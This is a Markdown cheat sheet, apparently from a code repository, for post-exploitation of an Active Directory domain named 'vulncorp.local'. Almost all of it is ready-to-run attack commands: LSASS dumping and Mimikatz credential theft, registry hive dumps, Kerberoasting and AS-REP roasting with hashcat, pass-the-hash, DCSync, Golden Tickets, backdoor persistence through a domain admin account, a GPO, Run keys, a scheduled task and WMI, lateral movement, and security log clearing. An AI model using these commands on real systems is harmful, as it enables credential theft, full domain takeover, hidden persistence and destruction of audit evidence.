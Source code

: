 
# 🧠 VulnCorp.local - AD DC Post-Exploitation Cheat Sheet

## 🔐 Initial Access on Domain Member
```powershell
whoami /all
echo %USERDOMAIN%
net config workstation
nltest /dsgetdc:vulncorp.local
```
- Get domain SID:
```powershell
whoami /user
```

## 🧭 Basic Domain Recon
```powershell
net user /domain
net group /domain
net group "Domain Admins" /domain
```
- Using PowerView:
```powershell
Import-Module .\PowerView.ps1
Get-NetUser | select cn
Get-NetGroupMember -GroupName "Domain Admins"
```

## 🔑 Credential Hunting
- Dump LSASS memory:
```powershell
procdump64.exe -ma lsass.exe lsass.dmp
```
- Analyze with Mimikatz:
```powershell
privilege::debug
sekurlsa::logonpasswords
```
- Dump registry hives:
```powershell
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SECURITY security.save
```

## 🧲 Kerberoasting
```powershell
Get-NetUser -SPN
Add-Type -AssemblyName System.IdentityModel
$creds = Get-Credential
$ticket = Get-DomainSPNTicket -Credential $creds
```
- Crack with hashcat:
```bash
hashcat -m 13100 kerb_hashes.txt rockyou.txt
```

## 🔥 AS-REP Roasting
```powershell
Get-ASREPHash -Verbose
```
- Crack with hashcat:
```bash
hashcat -m 18200 asrep_hashes.txt rockyou.txt
```

## 🧬 Pass-the-Hash / Ticket Attacks
- Pass-the-Hash:
```powershell
sekurlsa::pth /user:Administrator /domain:vulncorp.local /ntlm:<hash>
```
- Pass-the-Ticket:
```powershell
kerberos::ptt ticket.kirbi
```
- List tickets:
```powershell
kerberos::list
```

## 🧪 DC Sync Attack (Domain Admin)
```powershell
lsadump::dcsync /domain:vulncorp.local /user:krbtgt
```

## 🧨 Golden Ticket Attack
```powershell
kerberos::golden /user:hacker /domain:vulncorp.local /sid:S-1-5-21-xxxx /krbtgt:<hash> /ptt
```

## 🦊 Rubeus Examples
- Kerberoast with Rubeus:
```powershell
Rubeus.exe kerberoast /output:hashes.txt
```
- Ask TGT:
```powershell
Rubeus.exe asktgt /user:hacker /rc4:<NTLM hash> /domain:vulncorp.local /ptt
```
- Pass-the-Ticket:
```powershell
Rubeus.exe ptt /ticket:ticket.kirbi
```
- Dump Tickets:
```powershell
Rubeus.exe tgtdeleg
Rubeus.exe dump
```

## 🕳️ BloodHound Collection
```powershell
Sharphound.exe -c All
```
- Import the zip in BloodHound GUI.

## 🪤 Persistence on Domain

### ➤ Add Domain Admin
```powershell
net user hacker Pass123! /add /domain
net group "Domain Admins" hacker /add /domain
```

### ➤ Malicious GPO
```powershell
New-GPO -Name "MaliciousPolicy"
Set-GPRegistryValue -Name "MaliciousPolicy" -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Backdoor" -Type String -Value "C:\backdoor.exe"
```

### ➤ PowerShell Persistence Scripts

- Registry Run Key:
```powershell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Backdoor" -Value "C:\Users\Public\backdoor.exe"
```

- Scheduled Task:
```powershell
$action = New-ScheduledTaskAction -Execute "C:\Users\Public\backdoor.exe"
$trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "UpdateService" -Description "Backdoor" -User "SYSTEM"
```

- WMI Event Subscription:
```powershell
$Filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
    Name = "PersistenceFilter"; EventNamespace = "root\cimv2";
    QueryLanguage = "WQL"; Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Second = 0"
}
$Consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
    Name = "PersistenceConsumer"; CommandLineTemplate = "C:\Users\Public\backdoor.exe";
}
Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
    Filter = $Filter; Consumer = $Consumer
}
```

## 📡 Lateral Movement
- WMI:
```powershell
Invoke-WmiMethod -Class Win32_Process -ComputerName <hostname> -Name Create -ArgumentList "cmd.exe /c whoami"
```
- PSExec:
```bash
psexec.py vulncorp.local/hacker:Pass123!@target cmd.exe
```

## 🧼 Cleanup
```powershell
wevtutil cl Security
wevtutil cl System
net user hacker /del /domain
```

## 📌 Recommended Tools
- Mimikatz
- PowerView
- SharpHound / BloodHound
- Rubeus
- Impacket Suite
- CrackMapExec
- hashcat / john

## This is generated by OpenAI chatGPT
